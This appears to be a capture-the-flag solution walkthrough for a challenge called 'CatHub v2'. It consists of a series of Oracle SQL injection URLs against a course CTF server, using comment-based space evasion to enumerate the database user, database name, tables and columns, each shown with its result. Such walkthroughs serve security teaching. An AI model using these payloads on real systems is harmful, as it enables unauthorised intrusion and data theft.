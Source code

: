 # CatHub v2 solution step by step
`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/all/**/select/**/1,user,null/**/from/**/dual/**/where/**/rownum/**/=/**/1` --> SCOTT
`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/all/**/select/**/1,SYS.DATABASE_NAME,null/**/from/**/dual` --> XE
`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/all/**/select/**/DISTINCT/**/1,OWNER,null/**/from/**/ALL_TABLES` --> XDB (DB_NAME_META)
`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/all/**/select/**/DISTINCT/**/1,OWNER,null/**/from/**/ALL_TABLES/**/where/**/rownum=1` --> SYS (DB_NAME)
`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/select/**/1,TABLE_NAME,null/**/from/**/ALL_TABLES` --> AUDIT_ACTIONS (TABLE_NAME_META)
`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/select/**/1,TABLE_NAME,null/**/from/**/ALL_TABLES/**/where/**/rownum=1` --> DUAL (TABLE_NAME)
`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/select/**/1,COLUMN_NAME,null/**/from/**/ALL_TAB_COLUMNS` --> ABORT_STEP (COLUMN_NAME_META)
`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/select/**/1,COLUMN_NAME,null/**/from/**/ALL_TAB_COLUMNS/**/where/**/rownum=1` --> DUMMY (COLUMN)   
`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/select/**/1,DUMMY,null/**/from/**/dual` --> ERROR   